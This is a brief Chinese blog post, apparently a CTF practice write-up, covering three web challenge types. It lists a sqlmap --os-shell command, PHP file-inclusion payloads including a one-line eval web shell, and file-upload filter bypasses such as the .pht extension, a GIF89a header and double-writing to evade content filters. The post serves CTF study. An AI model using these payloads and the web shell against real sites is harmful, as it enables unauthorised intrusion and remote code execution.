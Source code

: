 ```yaml
---
title: 【网络安全3x05】CTF8月竞赛学习----------厂家培训-练习赛writeup
date: 2020-08-04 00:55:08
tags: [网络安全]
---
```


练习赛的writeup。

太菜了，四道web就搞出来一个。

sql的已经注入了不会弹shell，文件包含也是不会在路径中插入命令，文件上传要学的就更多了，后缀过滤、类型过滤、文件头过滤、文件大小过滤、包内容过滤。

<!-- more -->

# writeup

## sql注入

sql注入生成shell：

``` php
sqlmap -u [url] --os-shell
```
## 文件包含

包含反弹shell：

``` php

/?file=data://text/plain,<?php @eval($_POST[gt]);?>

/?file=php://input

```

## 文件上传

1. 后缀黑名单绕过 `.pht`
2. 文件大小绕过 复制粘贴
3. 文件头过滤 `GIF89a`
4. 包内容过滤 双写绕过`<?php @eval` => `<<??pphphp @eevalval`
